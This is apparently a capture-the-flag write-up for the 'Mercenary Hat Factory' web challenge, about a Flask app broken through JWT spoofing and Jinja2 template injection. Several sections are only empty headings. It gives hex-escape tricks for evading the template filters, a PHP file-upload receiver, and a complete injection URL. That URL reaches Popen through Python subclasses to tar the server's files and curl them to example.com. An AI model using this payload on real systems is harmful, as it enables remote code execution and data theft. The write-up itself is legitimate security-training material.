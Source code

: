 
# Mercenary Hat Factory

> "Mmph Mmmmph Mmph Mmmph!"
>
> Translation: Come and visit our hat factory!

![Screenshot](screenshot.png)

| Asset      | Note                                                            |
|------------|-----------------------------------------------------------------|
| Author     | Milkrop                                                         |
| Category   | Web Exploitation                                                |
| URL        | `http://challs.xmas.htsp.ro:11005`                              |
| Code       | 💾 [Cached][2] 💾 [Original Google Drive][1]                    |
| Dump       | 💾 [All Files][3]                                               |
| Flag       | `X-MAS{W3lc0m3_70_7h3_h4t_f4ct0ry__w3ve_g0t_unusu4l_h4ts_90d81c091da}` |
| Movie      | 📼 [unusual_flag.mp4](files/unusual_flag.mp4)

## Analysis

You're given a URL and upon loading you'll see a pretty blank page:

![Screenshot](screenshot-register.png)

 However, the Python source code was also given and if you poke around you'll
 see it's a Flask application with a few routes:

| Route        | Description                                                   |
|--------------|---------------------------------------------------------------|
| `/`          | Mostly blank page                                             |
| `/register`  | Create a user account                                         |
| `/login`     | Login with your account                                       |
| `/authorize` | A logged in user can become an authorized user                |
| `/makehat`   | Finally create some damn hats!                                |



### JWT Spoofing

### Authorizing

![Screenshot](screenshot-level2.png)

### Server Side Template Injection (SSTI)

### Evading SSTI Filters

You'll want to use a tool like [CyberChef][4] to make it easy to create escaped
text to evade the filters. You can mostly encode everything to escaped hex chars
but the only ones you *really* need are:

| Character        | Escaped                                                   |
|------------------|-----------------------------------------------------------|
| ` ` (space)      | `\x20`                                                    |
| `+` (plus)       | `\x2b`                                                    |
| `@` (at)         | `\x40`                                                    |
| `_` (underscore) | `\x5f`                                                    |

You can also turn certain filtered words into escaped hex sequences, so instead
of `config` you would use:

```
\x63\x6f\x6e\x66\x69\x67
```

You can also use the `attr` filter to get a value when the symbol you need is
only available as a string:

```
x.blacklisted
```

Would become:

```
x|attr('\x62\x6c\x61\x63\x6b\x6c\x69\x73\x74\x65\x64')
```

### Introspection

Once you get Python code injection you'll be able to see there are easily 850
or more classes available to be toyed with:
([full list](list_of_classes.txt))

![Screenshot](screenshot-classes.png)


### Shell Command Injection

![Screenshot](screenshot-popen.png)

### Exfiltration

Given we have arbitrary code access at this point we can easily create an
archive of all the files and upload them to a remote server. The organizers
provided access to the `server.py` file, but there are many templates and of
course the flag itself that need to be uploaded to a remote server.

First we setup a PHP script running on a remote server such as `example.com`:

```
<?php

file_put_contents("/tmp/payload.txt", file_get_contents($_FILES['f']['tmp_name']));
```

Next we want to run a command like this:

```
tar czf /tmp/x
curl -F f=@/tmp/x https://example.com/upload.php
```

However, because of the various server side template injection (SSTI) filters
this needs some fixing and becomes:

```
http://challs.xmas.htsp.ro:11005/makehat?hatName={{(((%27%27|attr(%27\x5f\x5fclass\x5f\x5f%27))|attr(%27\x5f\x5fbase\x5f\x5f%27))|attr(%27\x5f\x5fsubclasses\x5f\x5f%27))().pop(215)(%27tar\x20czf\x20/tmp/x\x20.;curl\x20-F\x20f=\x40/tmp/x\x20https://example.com/upload.php%27,shell=1)}}
```

[1]: https://drive.google.com/file/d/1xHCkY2b5xrjnWg6iToqTyvOVviCo3tnx/view?usp=sharing
[2]: files/server.py
[3]: files/
[4]: https://gchq.github.io/CyberChef/
